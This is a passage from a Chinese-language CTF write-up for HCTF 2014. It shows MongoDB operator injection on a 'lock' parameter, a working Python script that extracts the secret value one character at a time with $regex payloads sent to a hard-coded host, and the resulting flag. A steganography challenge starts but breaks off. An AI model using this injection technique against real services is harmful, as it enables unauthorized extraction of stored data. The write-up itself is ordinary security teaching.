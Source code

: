 	lock[$ne]=1&key=2
	
得到不一样的返回页面，

	Right, but it seemmed the key is not right!!!(╯°□°）╯︵ ┻━┻(╯°□°）╯︵ ┻━┻(╯°□°）╯︵ ┻━┻

从而判断lock变量存在mongodb注入，因lock肯定为一字符串，可以用正则来爆，程序如下：

{% highlight python%}
#!/usr/bin/env python
# coding: utf-8

import requests
import re
import sys


vul_url = 'http://121.40.86.166:23339'


def build_payload(s):
    post_data = {
        'lock[$regex]': r'^%s.*' % s,
        'key': ''
    }
    return post_data


def fuzz_char(s):
    #可加入其他可打印字符
    for c in 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789':
        payload = s + c
        response = requests.post(vul_url, data=build_payload(payload))
        m = re.compile('Right').findall(response.content)

        if m:
            print '[*] Fuzzing: "%s" [ok]' % payload
            fuzz_char(payload)

    print '[*] Found $lock value: "%s"' % s
    sys.exit()

lock = ''
fuzz_char(lock)

{% endhighlight %}

跑了一会儿，得到最终的lock值：``9cc32bd6``

post数据，得到flag：
	lock=9cc32bd6&key=9cc32bd6
	
flag：``hctf{Middleware_1s_al3o_Vulnerability!}``

##NormalFile（300pt）

下载⽂文件下来 NormalFile.jpg 明显后⾯面有数据,解开之后发现__MACOSX下⾯面的同名图⽚片诡异的⼤：

![img]({{ site.url }}/public/img/ctf/hctf2014/NormalFile_img_1.jpeg)

